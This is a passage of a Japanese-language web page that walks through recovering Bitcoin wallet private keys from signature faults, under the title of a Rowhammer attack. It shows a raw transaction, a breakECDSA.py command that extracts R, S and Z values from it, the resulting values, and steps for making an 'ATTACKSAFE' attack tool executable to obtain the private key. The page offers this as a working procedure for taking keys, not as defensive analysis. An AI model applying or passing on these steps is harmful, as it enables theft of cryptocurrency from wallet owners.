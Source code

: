 

<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-115-1024x145.png" alt="署名フォルトを使用して Bitcoin ウォレットの秘密鍵を取得する方法 (Bitcoin に対する Rowhammer 攻撃)" class="wp-image-1181"/></figure>



<pre class="wp-block-code"><code>RawTX = 0100000001cb9a792b88760ad20c67047c06d016ba4a069d036c4fbc5c09a8055fe786580f300000006a4730440220331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc6702200bfec7e7d2ae249b3d69cd8d666b5ee833394af3b0703fa023579200d9ab2ff401210335a395eca8191c43ccee4d91e98b9baef39476d7482cf636e5b71975c69feebdffffffff013a020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000
</code></pre>



<h2>ここで、すべての脆弱なトランザクションからすべての R、S、Z 値を取得する必要があります</h2>



<p>breakECDSA.py スクリプトを使用してみましょう</p>



<pre class="wp-block-code"><code>python2 breakECDSA.py 0100000001cb9a792b88760ad20c67047c06d016ba4a069d036c4fbc5c09a8055fe786580f300000006a4730440220331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc6702200bfec7e7d2ae249b3d69cd8d666b5ee833394af3b0703fa023579200d9ab2ff401210335a395eca8191c43ccee4d91e98b9baef39476d7482cf636e5b71975c69feebdffffffff013a020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-116-1024x306.png" alt="署名フォルトを使用して Bitcoin ウォレットの秘密鍵を取得する方法 (Bitcoin に対する Rowhammer 攻撃)" class="wp-image-1183"/></figure>



<pre class="wp-block-code"><code>R = 0x331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc67
S = 0x0bfec7e7d2ae249b3d69cd8d666b5ee833394af3b0703fa023579200d9ab2ff4
Z = 0x9d86bea51385f6a56835d0148e7f23a353605bab339127e800112307e6727d2d</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p><strong></strong><strong><a href="https://attacksafe.ru/software/" target="_blank" rel="noreferrer noopener">攻撃を実装して秘密鍵を取得するには、 「ATTACKSAFE SOFTWARE」</a></strong><strong>ソフトウェアを使用します</strong><strong><a href="https://attacksafe.ru/software/" target="_blank" rel="noreferrer noopener"></a></strong></p>



<figure class="wp-block-image"><a href="https://attacksafe.ru/software/" target="_blank" rel="noreferrer noopener"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-14.png" alt="署名フォルトを使用して Bitcoin ウォレットの秘密鍵を取得する方法 (Bitcoin に対する Rowhammer 攻撃)" class="wp-image-705"/></a><figcaption class="wp-element-caption"><strong><code>www.attacksafe.ru/software</code></strong></figcaption></figure>



<h2>アクセス権：</h2>



<pre class="wp-block-code"><code>chmod +x attacksafe</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-118.png" alt="署名フォルトを使用して Bitcoin ウォレットの秘密鍵を取得する方法 (Bitcoin に対する Rowhammer 攻撃)" class="wp-image-1188"/></figure>
